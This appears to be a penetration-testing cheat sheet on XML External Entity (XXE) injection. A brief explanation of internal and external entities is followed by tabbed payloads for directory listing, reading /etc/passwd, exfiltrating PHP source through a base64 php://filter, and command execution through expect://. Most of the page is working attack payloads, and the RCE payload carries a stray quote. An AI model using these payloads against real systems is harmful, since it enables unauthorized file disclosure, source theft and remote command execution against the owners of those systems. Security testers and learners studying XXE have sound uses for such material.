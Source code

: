 ```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

### Common Attacks

{% tabs %}
{% tab title="Directory Listing" %}
```xml
# This works in certain Java web applications
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
```
{% endtab %}

{% tab title="LFI" %}
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```
{% endtab %}

{% tab title="Source Code Exfil" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE test [
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```xml
# The PHP://expect filter is not installed by default. 
# Also for this to work, the output must be reflected.
<!DOCTYPE test [
<!ENTITY company SYSTEM "expect://whoami'">
]>
```
{% endcode %}
{% endtab %}
{% endtabs %}

